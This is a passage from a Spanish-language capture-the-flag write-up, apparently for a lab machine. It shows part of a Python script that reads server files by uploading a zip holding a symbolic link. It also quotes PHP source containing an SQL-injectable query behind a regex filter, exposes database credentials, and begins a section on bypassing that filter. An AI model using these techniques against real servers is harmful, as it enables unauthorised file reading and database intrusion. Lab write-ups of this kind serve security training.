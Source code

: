 ```python
    pass
         
def lfi(file):
    link_path = create_symbolic_link(file)
    zip_path = create_zip_file(link_path)
    upload_url = upload_file(zip_path)
    # Borrando los archivos para poder solicitar el siguiente
    os.system("rm pwn.zip pwn.pdf")
    read_file(upload_url)
    
if __name__ == "__main__":
    while True:
        file = input("> ")
        lfi(file)
```

En el archivo `/var/www/html/shop/product.php`
Vemos lo siguiente
```php
if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
```

Si cargamos el archivo `/var/www/html/shop/functions.php`
Vemos lo siguiente
```
	$DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
```

# SQL Injection -> Bypassing preg_match()
Por ahora no nos sirve de nada, lo único que sabemos gracias a la credencial que por detrás la base de datos es MySQL, MariaDB, o variados.

Antes, paralelamente estaba ejecutando un `sqlmap` para ver si este campo era vulnerable a SQL pero no encontró nada.
Ahora sabiendo como funciona por detrás y viendo la expresión regular que emplea, podemos intentar bypassearla.
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match

No lo había incluido, pero había un apartado en el sitio web donde vi antes un parámetro `id` que me llamó la atención por un posible SQLi.
![Write-up Image](images/Screenshot_6.png)
